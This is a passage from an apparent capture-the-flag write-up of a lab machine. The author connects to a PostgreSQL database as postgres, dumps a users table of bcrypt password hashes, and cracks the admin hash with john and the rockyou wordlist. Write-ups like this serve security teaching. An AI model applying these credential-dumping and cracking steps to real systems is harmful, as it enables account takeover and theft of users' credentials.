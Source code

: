 ```console
(END)

```

I use the `cozyhosting` database and take a look at the tables:

```text
postgres=# \c cozyhosting
\c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
cozyhosting=# \dt
\dt
WARNING: terminal is not fully functional
Press RETURN to continue 

         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

(END)
```

And dump the info from the `users` tables:

```text
cozyhosting=# select * from users;
select * from users;
WARNING: terminal is not fully functional
Press RETURN to continue 

   name    |                           password                           | role
  
-----------+--------------------------------------------------------------+-----
--
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admi
n
(2 rows)

(END)
```

I'll load both hashes into `john`:

```console
$ /usr/sbin/john --wordlist=~/rockyou.txt cozyhashes
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (admin)
[...]
```
